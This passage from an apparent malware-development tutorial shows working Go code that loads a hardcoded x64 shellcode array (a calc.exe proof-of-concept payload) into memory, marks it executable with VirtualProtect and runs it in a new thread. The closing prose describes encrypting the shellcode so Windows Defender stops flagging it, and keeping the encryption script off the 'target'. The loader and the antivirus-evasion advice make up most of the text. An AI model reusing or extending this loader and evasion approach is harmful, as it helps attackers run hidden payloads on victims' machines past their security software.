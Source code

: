 ```go  
	virtualProtect.Call(mem, uintptr(len(shellcode)), PAGE_EXECUTE_READ, uintptr(unsafe.Pointer(&oldProtect)))

	// Create a new thread to execute the shellcode
	thread, _, _ := createThread.Call(0, 0, mem, 0, 0, 0)

	// Wait for the thread to finish
	waitForSingleObject.Call(thread, uintptr(INFINITE))
}

func main() {
	shellcode := []byte{
		0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
		0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
		0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
		0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
		0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
		0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
		0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
		0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
		0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
		0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
		0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
		0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
		0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
		0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
		0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
		0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
		0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
		0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
		0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
		0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
		0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00,
	}

	executeShellcode(shellcode)
}
```  

## Wait, does W1ndoes know about teh shellcodez? Yep, it knows...  

![](/go-malware/go-malware-got-popped.png)  

## We need to encrypt teh shellc0dez so Weendows doesn't know... One can run the encrypter on Windows, but it gets flagged (have to turn off defender). Instead run encrypt.go on linux since we were just using hexdump anyway and its a better workflow... You definately don't want you encryption script left on a target.  

